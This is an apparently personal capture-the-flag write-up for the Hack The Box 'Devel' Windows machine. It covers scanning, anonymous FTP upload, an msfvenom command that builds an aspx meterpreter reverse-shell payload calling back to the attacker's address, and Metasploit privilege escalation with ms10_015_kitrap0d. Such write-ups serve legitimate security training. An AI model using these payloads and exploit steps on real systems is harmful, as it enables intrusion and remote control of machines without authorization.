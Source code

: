 ```yaml
---
layout: PostSimple
date: 2020-02-25
title:     "Hack The Box - Devel"
tags: ['windows','easy','iis','mfsvenom']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/1.png)

We are going to pwn Devel from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/3>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP:

We logged in as ``anonymous`` password can be anything. No files are interested.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/2.png)

## HTTP:

This is just default IIS Page:
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/3.png)

I started my gobuster and checked anything useful for us.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/02/25 21:05:15 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
===============================================================
2020/02/25 21:07:45 Finished
===============================================================
```

This looks like the same file as we saw in ``ftp`` this means the ftp is connected with web server.

I confirmed that with opening ``/welcome.png``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/4.png)

So now we need to upload a reverse shell in ``ftp`` and access it from web.
I look at the response of the web and the server is running as ``ASP.NET`` so we need to upload ``.aspx`` shell.
```
HTTP/1.1 304 Not Modified
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 28 Feb 2020 23:49:04 GMT
Connection: close
```

We need to get reverse shell, I used ``msfvenom`` to create the payload.

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=1234 -f aspx > reverse.aspx

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/7.png)

Now upload it in ``ftp`` and using metasploit to get the shell.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/8.png)

And start the metasploit and select ``exploit/multi/handler`` which provides a listener.
Set the payload that we used in ``msfvenom`` which is ``windows/meterpreter/reverse_tcp``.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/9.png)


Now open the ``/reverse.aspx`` from the web <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/10.png)

I get the ``shell`` and checked ``systeminfo``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/11.png)

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.


I tried ``local_exploit_suggester`` this will give us some suggestions to exploit.For that we need to background the session.
```
meterpreter > 
Background session 3? [y/N]  
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/12.png)

We need to enter the session which it need to check.
```
msf5 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.28:1234 -> 10.10.10.5:49162 (10.10.10.5)

```
So its session 3.

Now we can run that<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/13.png)<br/>
There is a lot of exploits suggested so I picked up random one.

> exploit/windows/local/ms10_015_kitrap0d


```
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.28 
LHOST => 10.10.14.28
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1234
LPORT => 1234
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-devel/14.png)


